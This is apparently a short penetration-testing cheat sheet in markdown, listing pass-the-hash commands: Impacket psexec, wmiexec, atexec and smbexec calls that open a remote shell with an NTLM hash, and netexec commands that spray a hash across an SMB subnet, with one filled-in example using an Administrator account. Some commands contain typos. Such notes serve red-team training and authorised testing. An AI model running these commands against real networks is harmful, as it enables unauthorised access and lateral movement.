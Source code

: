 -- -
### Impacket
Use impacket tools to get a shell. The commands all run the same so just change the binary name and keep everything else the same. 
```bash
impacket-psexec <user>@<ip> -hashes :<hash>
impackket-wmiexec <user>@<ip> -hashes :<hash>
impacket-atexec <user>@<ip> -hashes :<hash>
impacket-smbexec <user>@<ip> -hashes :<hash>
```
### netexec
```bash
# password hash spaying
netexec smb <CIDR range> -u <user> -d <domain> -H <hash> 
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

# password hash spraying for local account only, not AD
netexec smb <CDIR range> -u <user> -d <domain> -H <hash> --local-auth
```
